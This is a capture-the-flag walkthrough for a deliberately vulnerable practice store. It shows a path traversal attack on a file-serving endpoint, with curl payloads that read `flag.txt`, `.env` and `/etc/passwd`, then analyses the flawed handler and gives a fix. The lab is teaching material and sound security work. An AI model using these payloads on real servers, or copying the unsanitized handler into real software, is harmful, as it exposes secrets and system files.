

The OopsSec Store exposes `/api/files?file=...`, an endpoint that serves documents from a `documents/` folder. The filename gets joined to the base directory with no sanitization, so one `../` is enough to walk out of `documents/` and read anything the Node process can open.

## Table of contents

## Lab setup

From an empty directory:

```bash
npx create-oss-store oss-store
cd oss-store
npm start
```

Or with Docker (no Node.js required):

```bash
docker run -p 3000:3000 leogra/oss-oopssec-store
```

Head to `http://localhost:3000`.

## Target identification

The `/api/files` route reads a filename from the `file` query parameter and returns the file content from the `documents/` folder at the project root. The challenge flag sits in `flag.txt`, one level above `documents/`.



## Exploitation

### Step 1: Confirm normal behaviour

Start with a legit file to check the endpoint works:

```bash
curl "http://localhost:3000/api/files?file=readme.txt"
```

You get back a JSON payload with the filename and the raw file content. No filtering, no encoding, just the file as-is.

### Step 2: Identify the traversal distance

`documents/` and `flag.txt` share the same parent (the project root). So one `../` walks you from inside `documents/` back up to where the flag lives.

### Step 3: Send the traversal payload

Send the payload through the query parameter:

```bash
curl "http://localhost:3000/api/files?file=../flag.txt"
```

Pasting the same URL into a browser works just as well:

```
http://localhost:3000/api/files?file=../flag.txt
```

### Step 4: Retrieve the flag

The response contains the file content:

```json
{
  "filename": "../flag.txt",
  "content": "OSS{p4th_tr4v3rs4l_4tt4ck}"
}
```

The flag is `OSS{p4th_tr4v3rs4l_4tt4ck}`.

### Additional targets

The same trick reaches anything the Node process can read:

```bash
curl "http://localhost:3000/api/files?file=../.env"
curl "http://localhost:3000/api/files?file=../../../../etc/passwd"
```

Each extra `../` climbs one more directory. As long as the app's user has read access, the file comes back.

## Vulnerable code analysis

Here's the relevant part of the handler:

```typescript
export async function GET(request: NextRequest) {
  const { searchParams } = new URL(request.url);
  const file = searchParams.get("file");

  const baseDir = join(process.cwd(), "documents");
  const filePath = join(baseDir, file);
  const content = await readFile(filePath, "utf-8");

  return NextResponse.json({ filename: file, content });
}
```

A few things are wrong here:

1. The `file` value goes straight into the path. No validation, no rejection of `..`, nothing.
2. `path.join()` looks like a safety net but isn't one. It's a string helper. It resolves `..` the way the shell would, which means `join("/app/documents", "../flag.txt")` gives you `/app/flag.txt`.
3. Nothing checks that the final path still lives inside `baseDir` before the read happens.

The bug comes from treating `path.join()` as a sandbox. It was never meant to be one. Prepending a trusted directory to untrusted input doesn't keep the result in that directory once `..` shows up.

## Remediation

Resolve the absolute path first, then check it's still inside `baseDir` before touching the disk:

```typescript
import { resolve, sep } from "node:path";
import { readFile } from "node:fs/promises";
import { NextRequest, NextResponse } from "next/server";

export async function GET(request: NextRequest) {
  const { searchParams } = new URL(request.url);
  const file = searchParams.get("file");

  if (!file) {
    return NextResponse.json(
      { error: "File parameter is required" },
      { status: 400 }
    );
  }

  const baseDir = resolve(process.cwd(), "documents");
  const filePath = resolve(baseDir, file);

  if (filePath !== baseDir && !filePath.startsWith(baseDir + sep)) {
    return NextResponse.json({ error: "Forbidden" }, { status: 403 });
  }

  const content = await readFile(filePath, "utf-8");
  return NextResponse.json({ filename: file, content });
}
```

`path.resolve()` gives you an absolute path with `..` already collapsed. The `startsWith(baseDir + sep)` check rejects anything outside the folder, including siblings like `/app/documents-backup` that would slip past a naive `startsWith(baseDir)`. Reject first, read after.

For production, don't stop there:

- Keep an allowlist of filenames or identifiers and look up the real path server-side. Never accept raw paths from the client.
- Reject input with path separators (`/`, `\`), null bytes, or `..` before any path work.
- Run the app under a user that can only read what it actually needs.
- Log requests that resolve outside the expected directory. Someone probing for this is usually probing for more.

## Related weaknesses

- [CWE-22: Improper Limitation of a Pathname to a Restricted Directory](https://cwe.mitre.org/data/definitions/22.html)
- [OWASP Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [PortSwigger - Path Traversal](https://portswigger.net/web-security/file-path-traversal)
